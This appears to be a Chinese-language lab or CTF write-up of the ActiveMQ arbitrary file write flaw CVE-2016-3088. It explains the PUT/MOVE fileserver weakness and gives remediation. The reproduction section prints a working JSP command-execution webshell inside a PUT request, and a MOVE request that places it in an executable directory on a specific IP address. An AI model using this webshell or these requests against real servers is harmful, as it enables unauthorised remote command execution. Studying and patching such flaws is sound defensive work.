







# ActiveMQ任意文件写入漏洞（CVE-2016-3088）


## 1. 漏洞描述

* 漏洞描述：ActiveMQ是目前较为流行的一款开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数，恶意人员利用默认配置弱点实现远程命令执行攻击，获取服务器权限，从而导致数据泄露事件发生。
* 漏洞编号：CVE-2016-3088
* 漏洞等级：高危
* 漏洞版本：ActiveMQ 5.0.0 - 5.13.2

## 2. 漏洞简介

ActiveMQ 是 Apache 软件基金会下的一个开源消息驱动中间件软件。Jetty 是一个开源的 servlet 容器，它为基于 Java 的 web 容器，例如 JSP 和 servlet 提供运行环境。ActiveMQ 5.0 及以后版本默认集成了jetty。在启动后提供一个监控 ActiveMQ 的 Web 应用。

2016年4月14日，国外安全研究人员 Simon Zuckerbraun 曝光 Apache ActiveMQ Fileserver 存在多个安全漏洞，可使远程攻击者用恶意代码替代Web应用，在受影响系统上执行远程代码（CVE-2016-3088）。

## 3. 漏洞分析

### 3.1 漏洞利用方式

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件


写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

### 3.2 漏洞原理分析

ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录,下载 ActiveMQ 源码 ，可以看到后台处理 PUT 的关键代码如下：



用户可以上传文件到指定目录，该路径在 conf/jetty.xml 中定义，如下


前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为admin，首先访问http://your-ip:8161/admin/test/systemProperties.jsp，查看ActiveMQ的绝对路径：



顺着 PUT 方法追踪，可以看到调用了如下函数


同时看到后台处理 MOVE 的关键代码如下，可以看到该方法没有对目的路径做任何限制或者过滤。


由此，我们可以构造PUT请求上传 webshell 到 fileserver 目录，然后通过 Move 方法将其移动到有执行权限的 admin/ 目录。

## 4. 漏洞复现

1.访问网站，通过burpsuite进行数据包拦截：



2.抓取到数据包右键`Send to Repeater`进行数据包篡改即转发。



3.构造恶意payload，然后上传webshell：

```http
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```



我们登上服务器，可以看到2.txt被成功上传到fileserver文件夹中：



我们虽然上传了webshell，但是你访问这个wenshell的时候，你会发现webshell没有被执行，
所以我们需要将webshell移动到可执行目录下（/opt/activemq/webapps/api/s.jsp）。

```http
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: 218.2.197.232:27812
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 389

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```


访问webshell:


执行命令，查看flag：



## 5. 修复意见

1. ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2. 通过移除 conf\jetty.xml 的以下配置来禁用 ActiveMQ Fileserver 功能
